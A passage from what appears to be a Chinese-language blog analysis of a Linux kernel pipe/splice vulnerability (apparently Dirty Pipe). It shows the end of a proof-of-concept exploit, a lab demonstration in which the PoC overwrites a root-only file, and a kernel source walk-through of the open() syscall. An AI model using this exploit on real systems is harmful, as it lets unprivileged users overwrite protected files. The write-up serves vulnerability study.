 ```
    offset--;
 
    ssize_t nbytes = splice(fd, &offset, p[1], NULL, 1, 0);
    if (nbytes <= 0) return EXIT_FAILURE;
 
    if (write(p[1], data, data_size) != data_size) {
        return EXIT_FAILURE;
    }
 
    printf("It worked!\n");
    return EXIT_SUCCESS;
} 
```

构造一下漏洞复现场景，创建一个 secret.txt 文件只有 root 权限可以读写，其他用户只可以读  
![](https://cdn.nlark.com/yuque/0/2025/png/27597334/1744430879315-46059a29-cdd8-4ce2-bb87-97719855c8e2.png)

利用 poc 向这个只读文件进行内容覆盖！可以发现最后成功覆盖了！  
![](https://cdn.nlark.com/yuque/0/2025/png/27597334/1744430879379-f4c39a6a-ee26-4978-bab1-bae192c3782f.png)

首先动调 open 打开的文件结构体
------------------

POC 中尝试将一个只能够的读的文件打开：

```
int fd = open(path, O_RDONLY);
if (fd < 0) return EXIT_FAILURE;
```

在 linux 内核源码中可以找到 open 函数的具体实现代码：

```
grep -r "SYSCALL_DEFINE3(open,.*"
```

```
#/home/ub20/KernelStu/KernelEnvInit/linux-5.8.1/linux-5.8.1/fs/open.c:1179
SYSCALL_DEFINE3(open, const char __user *, filename, int, flags, umode_t, mode)
{
    return ksys_open(filename, flags, mode);
}
可以追踪到系统调用链：ksys_open->do_sys_open->do_sys_openat2
 
static long do_sys_openat2(int dfd, const char __user *filename,
               struct open_how *how)
{
...
    if (fd >= 0) { // 如果文件描述符分配成功
        struct file *f = do_filp_open(dfd, tmp, &op); // 调用核心函数打开文件，返回 file 结构体
...
}
```
